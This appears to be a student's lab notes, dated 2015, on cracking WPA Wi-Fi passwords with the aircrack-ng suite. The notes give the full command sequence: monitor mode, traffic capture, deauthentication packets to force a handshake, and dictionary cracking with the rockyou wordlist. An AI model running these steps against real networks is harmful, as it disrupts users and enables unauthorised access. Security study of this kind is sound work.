 #10/12/2015

###**WPA**

###Steps/Commands

**Window 1**
* service network-manager stop
* airmon-ng start "INTERFACE"
* airodump-ng mon0
* airodump-ng --bssid "BSSID" -c "Channel" --showack -w wpa_log "INTERFACE"

**New window**
* aireplay-ng -0 20 -a "BSSID" -c "HOSTNMAC" "INTERFACE" 
  * Will deauthenticate the host computer from the WiFi network (-0). We send 20 deauth packets (-20) Computer will probably reconnect automattically (Windows default setting), now we can catch the handshake! Once we have this handshake captured we can start cracking. You can check in Window 1 if you have captured the handshake.
* Ctrl + c
* Clear
* aircrack-ng wpa_log-01.cap -w "path to wordlist"
  * wpa_log-01.cap => Filename where airodump logs every packet (You can change the filename with -w)
  * "path to wordlist" !? WPA doesn't have the weakness in IV's like WEP has. We have to bruteforce the password. The wordlist is a text file containing possibilities (aka common passwords). An example is [rockyou](http://scrapmaker.com/download/data/wordlists/dictionaries/rockyou.txt)

###Some comments

We didn't do it on the RPi2 because:
* Hardware is te traag voor bruteforcing
* It took ages to download the rockyou file @ school
* Bruteforcing is quite useless with the "random" generated passwords as default. (takes to long)

The bruteforcing can be speed up by using the GPU power. 
